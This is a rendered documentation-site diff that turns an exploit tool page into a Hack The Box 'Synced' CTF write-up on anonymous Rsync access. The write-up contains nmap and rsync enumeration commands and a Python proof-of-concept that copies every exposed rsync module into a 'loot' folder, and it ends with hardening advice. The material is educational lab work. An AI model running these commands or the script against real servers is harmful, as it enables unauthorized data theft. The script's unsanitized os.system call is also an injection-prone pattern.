

Before and after one commit to InfoSec-DB/CyberDepot, an MkDocs documentation site: the page built from docs/htb/starting_point/htb_Synced.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
fix menu

````diff
--- a/docs/htb/starting_point/htb_Synced.md
+++ b/docs/htb/starting_point/htb_Synced.md
@@ -1,65 +1,155 @@
-# HTB Synced Exploit Documentation
 
-Welcome to the documentation for the **HTB Synced Exploit**. This site is generated with MkDocs and provides detailed instructions and information about the tool.
+# HTB Synced - Write-up
+**Prepared by: #AfterDark**
 
-## Overview
+## Introduction
 
-The HTB Synced Exploit is a Python-based tool designed for use in Capture The Flag (CTF) challenges—specifically targeting systems with anonymous Rsync access. It automates the process of scanning for the Rsync service, listing available modules, downloading data, and retrieving the flag file if available.
+The **HTB Synced** challenge involves exploiting a misconfigured **Rsync** service that allows **anonymous access**. Rsync is a fast and powerful file copying tool used for backups and synchronizations. However, when improperly configured, it can expose sensitive data.
 
-## Features
+This write-up will guide you through identifying and exploiting Rsync to retrieve the flag.
 
-- **Port Scanning:** Checks if Rsync is active on port 873.
-- **Module Extraction:** Automatically lists available Rsync modules.
-- **Anonymous Access:** Attempts to connect without credentials.
-- **Data Download:** Saves files from accessible modules.
-- **Flag Retrieval:** Reads and displays the contents of the `flag.txt` file.
-- **Verbose Output:** Provides detailed, SLMap-style colored output.
+# Enumeration
 
-## Installation
+# Step 1: Nmap Scan
 
-1. **Clone the Repository:**
-
-   ```bash
-   git clone https://github.com/yourusername/HTB-Synced.git
-   ```
-
-2. **Install Dependencies:**
-
-   The tool requires Python 3 and the `pyfiglet` package. Install it with:
-
-   ```bash
-   pip install pyfiglet
-   ```
-
-3. **Setup MkDocs (Optional):**
-
-   To build this documentation as a static site, install MkDocs:
-
-   ```bash
-   pip install mkdocs
-   ```
-
-   Then start the MkDocs server:
-
-   ```bash
-   mkdocs serve
-   ```
-
-   Visit [http://127.0.0.1:8000](http://127.0.0.1:8000) in your browser.
-
-## Usage
-
-Run the tool by executing:
+We start with an **Nmap scan** to identify open ports and running services.
 
 ```bash
-python htb_synced.py
+nmap -p- --min-rate=1000 -sV {target_IP}
 ```
 
-Follow the prompts to input the target IP. The tool then scans for Rsync, extracts modules, downloads available data, and attempts to read the flag.
+The scan results show:
 
-## License
+```
+873/tcp open  rsync
+```
 
-This documentation and tool are provided for educational and authorized penetration testing purposes only. Use responsibly and ethically.
+Port **873** is open, running an **Rsync daemon**, confirming the presence of an Rsync service.
+
+# Exploitation
+
+# Step 2: Listing Available Rsync Modules
+
+Rsync allows us to **list available shares** using the `--list-only` option:
+
+```bash
+rsync --list-only {target_IP}::
+```
+
+Output:
+
+```
+public          Anonymous Share
+```
+
+The **public** module is accessible. We now check its contents:
+
+```bash
+rsync --list-only {target_IP}::public
+```
+
+Output:
+
+```
+flag.txt
+```
+
+The **flag.txt** file is inside the public share.
+
+# Step 3: Downloading the Flag
+
+We can download `flag.txt` using:
+
+```bash
+rsync {target_IP}::public/flag.txt flag.txt
+```
+
+Once downloaded, we read its contents:
+
+```bash
+cat flag.txt
+```
+
+Output:
+
+```
+72eaf5344ebb84908ae543a7198*****
+```
+
+**Congratulations!** 🎉 You've successfully exploited Rsync and retrieved the flag.
+
+# Conclusion
+
+- Rsync, when **misconfigured**, allows anonymous access.
+- Listing available modules (`--list-only`) can reveal sensitive directories.
+- Data can be copied using Rsync commands.
+- **Always ensure Rsync is properly secured** to prevent unauthorized access.
+
+# PoC Script
+
+The following Python script automates the exploitation process:
+
+```python
+import os
+import subprocess
+import ipaddress
+
+def get_target_ip():
+    while True:
+        target = input("Enter the target IP: ").strip()
+        try:
+            ipaddress.ip_address(target)
+            return target
+        except ValueError:
+            print("[-] Invalid IP address. Please enter a valid IP.")
+
+def scan_rsync(target):
+    print(f"[+] Scanning Rsync on {target}:873")
+    result = subprocess.run(["nmap", "-p873", target], capture_output=True, text=True)
+    if "873/tcp open" in result.stdout.lower():
+        print("[+] Rsync is running.")
+    else:
+        print("[-] Rsync not detected.")
+        exit(1)
+
+def extract_modules(target):
+    print("[+] Extracting Rsync modules...")
+    result = subprocess.run(["rsync", f"rsync://{target}/"], capture_output=True, text=True)
+    modules = [line.split()[0] for line in result.stdout.split("
+") if line.strip()]
+    if modules:
+        print("[+] Found Rsync modules:", ", ".join(modules))
+        return modules
+    else:
+        print("[-] No modules found.")
+        exit(1)
+
+def download_flag(target, module):
+    print(f"[+] Downloading from module: {module}")
+    os.system(f"rsync -av rsync://{target}/{module}/ loot/")
+    print("[+] Flag saved in loot/")
+
+def main():
+    target = get_target_ip()
+    scan_rsync(target)
+    modules = extract_modules(target)
+    for module in modules:
+        download_flag(target, module)
+
+if __name__ == "__main__":
+    main()
+```
+
+# Defensive Measures
+
+To **secure Rsync**, follow these best practices:
+
+- **Disable anonymous access** by setting `auth users` in `rsyncd.conf`.
+- **Restrict IP access** using `hosts allow` and `hosts deny` settings.
+- **Run Rsync over SSH** instead of in daemon mode.
+- **Use authentication** to prevent unauthorized access.
+
+**Stay safe, and happy hacking!** 🚀
 
 ---
-*Made by #AfterDark*
+*Write-up by #AfterDark*
````
Also changed, not shown: docs/htb/starting_point/machine1.md (deleted).
